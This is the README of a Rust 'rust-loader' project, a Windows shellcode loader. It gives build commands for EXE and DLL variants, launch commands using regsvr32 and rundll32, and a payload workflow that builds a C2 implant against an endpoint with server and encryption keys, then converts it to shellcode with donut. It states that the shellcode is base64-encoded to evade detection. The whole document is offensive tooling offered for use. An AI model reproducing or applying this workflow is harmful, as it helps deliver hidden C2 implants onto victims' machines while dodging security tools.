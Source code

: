 # rust-loader
A simple windows binary loader, written in rust

The shellcode has to be put in the src/payload.b64 file.

shell is base64 encoded to prevent donut detection


# Executable
Win x86
```shell
cargo build --target i686-pc-windows-gnu --release --features no_console
```
Win x64
```shell
cargo build --target x86_64-pc-windows-gnu --release --features no_console
```

# Dll
## regsvr
### build
Win x86
```shell
cargo build --target i686-pc-windows-gnu --release --lib --features regsvr
```
Win x64
```shell
cargo build --target x86_64-pc-windows-gnu --release --lib --features regsvr
```

### fire
```shell
regsvr32 /s .\rustloaderlib.dll
```
```shell
rundll32.exe .\rustloaderlib.dll,DllRegisterServer
```


## Generate payload : 
```shell
cross build --target x86_64-pc-windows-gnu --release --features no_console --config "env.ENDPOINT.value='https://192.168.48.128'" --config "env.C2_SERVER_KEY.value='MXlPZEVWWGVmN2xqbnpyUg=='" --config "env.LITCRYPT_ENCRYPT_KEY.value='thisisadeploymentkey'"
```
```shell
/opt/donut/donut -i /mnt/Share/Projects/Rust/Droid/target/x86_64-pc-windows-gnu/release/droid.exe -f 2 -a 2 -o /mnt/Share/Projects/Rust/rust-loader/src/payload.b64
```